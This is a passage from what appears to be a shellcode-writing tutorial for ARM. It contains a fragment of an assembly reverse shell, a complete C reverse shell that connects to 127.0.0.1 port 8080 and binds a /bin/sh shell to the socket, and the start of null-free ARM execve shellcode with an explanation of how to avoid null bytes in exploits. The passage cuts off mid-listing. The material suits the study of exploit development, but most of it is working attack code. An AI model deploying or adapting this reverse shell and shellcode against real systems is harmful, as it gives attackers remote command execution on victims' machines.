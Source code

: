 ```s title:reverse.s
    mov r7, #11     // execve syscall
    svc #0

sockaddr:
    .short 0x2      // AF_INET = 2
    .short 0x901F   // Port 8080 (0x1F90 in network
```


*Reverse Shell in C*

```c title:reverse_shell.c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main() {
    // 1. Create socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    // 2. Connect to remote
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(8080);          // Port 8080
    addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // IP
    
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    
    // 3. Duplicate file descriptors
    dup2(sockfd, 0); // STDIN
    dup2(sockfd, 1); // STDOUT
    dup2(sockfd, 2); // STDERR
    
    // 4. Execute shell
    char *args[] = {NULL};
    execve("/bin/sh", args, NULL);
    
    return 0;
}
```


But now if you extract shellcode you will find NULL bytes. Let's remove them.

#### Null-Free ARM `execve("/bin/sh")` Shellcode

Null bytes (`0x00`) often terminate strings in exploits, so shellcode containing them might get truncated. We need to:

1. Avoid literal nulls in instructions
2. Avoid nulls in data (like strings)
3. Use register manipulation to create needed zeros

```s title:nullfree_execve.s
.section .text
.global _start

_start:
        .ARM
        add r3, pc, #1      // 1. Set up Thumb mode switch
        bx  r3              // 2. Switch to Thumb mode

        .THUMB
        add r0, pc, #8      // 3. Get address of "/bin/dash"
        sub r1, r1, r1      // 4. Zero out r1 (argv)
        mov r2, r1          // 5. Zero out r2 (envp)
```